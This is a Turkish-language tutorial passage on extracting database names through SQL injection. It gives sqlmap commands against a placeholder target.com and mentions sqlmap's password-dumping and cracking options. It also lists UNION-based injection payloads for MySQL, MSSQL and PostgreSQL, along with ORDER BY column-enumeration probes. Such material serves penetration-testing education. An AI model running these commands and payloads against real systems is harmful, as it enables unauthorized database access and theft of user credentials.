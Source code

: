✅ users tablosundaki tüm verileri getirir.
```plaintext
📌 Eğer veriler şifreli ise --passwords ve --crack parametrelerini kullanarak şifreleri çözmeyi deneyebilirsin.
```





SQL Veritabanı İsmini Öğrenme
1️⃣ SQLmap ile Otomatik Veritabanı İsmini Öğrenme
SQLmap, SQL Injection testlerini otomatikleştiren güçlü bir araçtır. Eğer bir hedef URL'nin parametre bazlı SQL Injection’a açık olup olmadığını test etmek ve veritabanı ismini öğrenmek istiyorsan:
bash
```bash
sqlmap -u "https://target.com/index.php?id=1" --dbs
```
✅ Açıklama:
-u: Hedef URL
```plaintext
--dbs: Sunucudaki tüm veritabanlarını listelemeye çalışır
```
Eğer POST metodu ile çalışıyorsa, şu şekilde kullanılabilir:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

2️⃣ UNION-Based SQL Injection ile Veritabanı İsmini Öğrenme
Union-based SQL Injection, veritabanı sistemine direkt sorgu ekleyerek veritabanı adını döndürmeye çalışır.
MySQL İçin
sql
```sql
' UNION SELECT database(), null, null-- -
```
✔️ Çıktı:
nginx
KopyalaDüzenle
test_database
MSSQL İçin
sql
```sql
' UNION SELECT DB_NAME(), null, null-- -
```

PostgreSQL İçin
sql
```sql
' UNION SELECT current_database(), null, null-- -
```
💡 Eğer kaç sütun olduğunu bilmiyorsan, ORDER BY veya UNION SELECT NULL yöntemiyle tespit edebilirsin.
sql
```plaintext
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
